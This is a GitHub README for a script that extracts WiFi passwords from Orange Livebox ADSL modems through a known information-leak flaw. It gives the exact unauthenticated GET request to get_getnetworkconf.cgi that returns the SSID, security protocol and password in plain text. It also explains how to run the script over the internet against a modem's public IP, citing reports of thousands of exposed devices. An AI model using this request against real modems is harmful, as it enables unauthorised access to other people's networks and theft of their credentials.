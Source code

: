 # Orange Livebox GET PASS
This script allows you to get the password from an Orange Livebox ADSL throught the <a href="https://github.com/zadewg/LIVEBOX-0DAY">"get_getnetworkconf.cgi" file vulnerabilty (CWE-200)</a>

<img src="https://raw.githubusercontent.com/BlueArduino20/Orange-Livebox-GET-PASS/master/1.png">

From @zadewg's GitHub (CWE-200):
<pre><code>The webserver leaks access point security protocol, SSID, and password in plain text.
GET http://192.168.1.1/get_getnetworkconf.cgi</code></pre>

**Note**: If you are going to use the public IP of the ADSL in order to use this script over the internet, make sure that it has the 8080 port open.

## Sources
- **@zadewg's GitHub**: https://github.com/zadewg/LIVEBOX-0DAY

- **badpackets.net**: https://badpackets.net/over-19000-orange-livebox-adsl-modems-are-leaking-their-wifi-credentials
